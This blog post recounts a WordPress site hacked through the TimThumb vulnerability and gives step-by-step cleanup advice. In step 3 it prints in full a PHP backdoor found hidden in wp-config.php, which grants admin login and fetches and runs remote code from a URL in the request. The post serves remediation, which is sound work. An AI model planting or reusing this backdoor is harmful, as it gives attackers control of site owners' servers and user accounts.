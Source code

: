 ```yaml
---
title: Warning - Something's Not Right Here
date: 2011-09-30 12:00
author: Blake Embrey
template: article.jade
---
```


![Chrome is broken :/](http://d.pr/i/Ap8y+)

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future refernce as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```php
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).
